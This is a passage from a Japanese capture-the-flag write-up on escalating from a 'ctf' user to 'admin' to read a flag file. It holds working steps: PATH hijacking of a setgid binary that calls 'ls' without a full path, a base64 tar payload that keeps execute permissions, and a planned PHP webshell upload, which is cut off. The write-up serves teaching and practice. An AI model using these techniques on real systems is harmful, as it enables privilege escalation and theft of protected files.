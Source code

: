 ```Dockerfile
    chmod g+s /make_abyss_entry

COPY list_uploads /list_uploads
RUN chown admin:admin /list_uploads &&\
    chmod 111 /list_uploads &&\
    chmod g+s /list_uploads

COPY src /var/www/html

RUN mkdir /abyss &&\
    chown -R root:root /abyss &&\
    chmod -R 331 /abyss

RUN chown -R root:root /var/www/html &&\
    chmod -R 555 /var/www/html

RUN rm -rf /var/www/html/uploads

RUn mkdir /var/www/html/uploads &&\
    chmod -R 333 /var/www/html/uploads

RUN rm -f /bin/chmod /usr/bin/chmod /bin/chown /usr/bin/chown

USER ctf

EXPOSE 8080
```
自身は`ctf`ユーザで、`admin`のみが`/flag.txt`を読み取れるようだ。  
`root`で`/make_abyss_entry`を実行しているが、ローカルで試すと`/abyss`以下にランダムな名前のディレクトリを作成する振る舞いであった。  
つまり`/make_abyss_entry`で他競技者に見られないように自分だけのディレクトリを作成して`admin`にPrivileges Escalationしろということのようだ(さすがに`root`は問題が破壊できるので到達できないと予測)。  
いまだPHP部分を突破できていないものの、侵入した後のPEを考える。  
`admin`で`g+s`された`/list_uploads`がPHPで利用できないにもかかわらず存在するため、PEに利用すると考えられる。  
中身を軽くデコンパイルすると`system("ls /var/www/html/uploads");`を行っている。  
ここで`ls`が絶対パス指定でないため、PATHを切り替えることで偽の`ls`を実行させることができることに気づく。  
`cat /flag.txt`などと記述したものを、ファイル名`ls`として実行可能権限を付け、`/abyss`以下の自分だけのディレクトリに配置しておき、そこをPATHとしてやればよい。  
ただし、`/bin/chmod`などは削除されているため、後から偽の`ls`に実行権限を付加することができない。  
そこで、tar展開時に権限をローカルから引き継ぐ手法を利用する。  
以下のようにtarを作っておく(PHP部分を突破できた場合、WebShell経由でのRCEとなるため、base64で送信できるようにしておく)。  
```bash
mkdir satoki
echo 'cat /flag.txt' > satoki/ls
tar cvzfp a.tar.gz satoki
$ cat a.tar.gz | base64
H4sIAAAAAAAAA+3RTQoCMQyG4aw9RU/gJGNrz1MERRwQbASP74g/iAsHF0XE99lkkUI/8tXi+922
k5Z0lHO+TMtJn+edWIy99TFlXYiaaYoSUtNUN8fq5RCC1PEQ795N7X9UvfY/1IZ/TPZvy9f+oyUJ
2jDTw5/3vyoeuvVQNnM/+ezbaQAAAAAAAAAAAAAAAAB84gwp3cY1ACgAAA==
```
侵入後は以下の通りでPEできる(?????は`/make_abyss_entry`の結果)。  
```bash
/make_abyss_entry
cd /abyss/?????
echo -n 'H4sIAAAAAAAAA+3RTQoCMQyG4aw9RU/gJGNrz1MERRwQbASP74g/iAsHF0XE99lkkUI/8tXi+922k5Z0lHO+TMtJn+edWIy99TFlXYiaaYoSUtNUN8fq5RCC1PEQ795N7X9UvfY/1IZ/TPZvy9f+oyUJ2jDTw5/3vyoeuvVQNnM/+ezbaQAAAAAAAAAAAAAAAAB84gwp3cY1ACgAAA==' | base64 -d > a.tar.gz
tar xvzfp a.tar.gz
export PATH=/abyss/?????/satoki:/bin
/list_uploads
```
ここで、後回しにしていたPHP部分の突破を考える。  
ソースに怪しいファイルは存在しなかったため、正攻法で突破する必要がある。  
アップロード用のWebShellは以下のとおりsatoki.phpとして作っておく。  
```php
<?php
```